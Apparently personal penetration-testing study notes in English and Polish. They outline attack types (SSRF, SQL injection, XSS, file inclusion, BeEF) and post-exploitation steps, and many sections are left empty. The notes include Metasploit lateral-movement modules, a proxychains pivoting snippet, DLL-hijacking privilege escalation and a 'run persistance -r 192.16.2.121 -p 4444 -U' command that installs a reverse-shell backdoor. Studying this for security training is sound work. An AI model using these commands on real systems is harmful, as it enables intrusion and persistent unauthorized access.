








- [Exploitation](#exploitation)
  - [Attack Objectives](#attack-objectives)
  - [Attack and Exploit Resources](#attack-and-exploit-resources)
  - [Application attacks](#application-attacks)
    - [Server-side Request Forgery](#server-side-request-forgery)
    - [Injection Attacks](#injection-attacks)
    - [Cross-site Request Forgery and Unsecure Code Practices](#cross-site-request-forgery-and-unsecure-code-practices)
    - [Authentication and Authorization Vulnerabilities](#authentication-and-authorization-vulnerabilities)
    - [API Attacks](#api-attacks)
  - [Attacks against cloud technologies](#attacks-against-cloud-technologies)
  - [Attacking and exploiting specialized systems](#attacking-and-exploiting-specialized-systems)
  - [Social engineering and physical attacks](#social-engineering-and-physical-attacks)
  - [Post-exploitation](#post-exploitation)
- [Post Exploitation](#post-exploitation-1)
  - [Programy](#programy)
    - [PowerShell Empire](#powershell-empire)
    - [Mimikatz](#mimikatz)
    - [Bloodhound](#bloodhound)
    - [Powershell i Linux Terminal](#powershell-i-linux-terminal)
  - [Enumeration](#enumeration)
  - [Lateral movement](#lateral-movement)
    - [Pivoting](#pivoting)
    - [Privilege Escalation](#privilege-escalation)
    - [Persistance](#persistance)


# Exploitation

## Attack Objectives
Confidentiality, 
Integrity (exploit trust existing betwen two entities): Data diddling, Salami attacks, Phishing
Availability (dostępność usług): DOS, DDOS, jamming, de-authentication attack, Telephone jamming, Power cut, Environment attacks

## Attack and Exploit Resources

[Mitre Att&ck](https://attack.mitre.org)

[Attack and Exploit Resources CISA](https://www.cisa.gov)

[Microsoft](https://docs.microsoft.com/en-us/security-updates)

[Packet Storm Security](https://packetstormsecurity.com)

[Exploit Database](https://www.exploit-db.com)


## Application attacks

### Server-side Request Forgery
- Blind SSRF attacks
- Hidden SSRF vulnerabilities
	- Partial URLs in requests
	- URLs within data formats
	- SSRF via referral headers

### Injection Attacks
Blind SQL Injection: Content-based blind SQLi, Timing-based blind SQLi

Cross Site Scripting (XSS): **Reflected** (from current HTTP request), Persistent/**stored** (from database that support app), Dom-based

### Cross-site Request Forgery and Unsecure Code Practices


### Authentication and Authorization Vulnerabilities
**Authentication Attacks**: Password authentication, **Session hijacking**, **Unvalidated redirects**


**Authorization Vulnerabilities**: Direcotry Traversal, Local/Remote File Inclusion, Insecure Direct Object References,  
Local File Inclusion

Remote File Inclusion



### API Attacks

## Attacks against cloud technologies


## Attacking and exploiting specialized systems
**The Browser Exploitation Framework (BeEF)**
kiedy ofiara jest zaatakowana pozwala przejąć całkowicie kontrolę nad przeglądarką, binduje przegląðarkę ofiary z serwerem beef
dostaje się *hook* w postaci skryptu, który zamieszcza się na swojej stronie

## Social engineering and physical attacks

## Post-exploitation

# Post Exploitation

## Programy

### PowerShell Empire

### Mimikatz

### Bloodhound

### Powershell i Linux Terminal

## Enumeration

## Lateral movement
Alternate authenttication types
PSExec > msf exploit/windows/smb/psexec
SSHExec > msf exploit/multi/ssh/sshexec
Incognito

### Pivoting
Adding a route in Metasploit
Socks4A and ProxyChains: 
```
msf > use auxiliary/server/socks4a
proxychains nmap ...
```

### Privilege Escalation
Exploitation: msf > two key techniques, the first is get system which tries a number of different techniques such as name to pipe impersonation or token duplication, second class of techniques is local exploits - take advantage of known published vulnerabilities in common operating systems and components.
Hijack the flow of code execution. - dll w windows ładowane w pewnej kolejności można utworzyć wcześniej spreparowanego dll-a i umieśćić go w miejscu wyżej na liście

### Persistance
Metasploit: run persistance -r 192.16.2.121 -p 4444 -U
Adding user
Scheduling tasks on Windows, inux (cron)


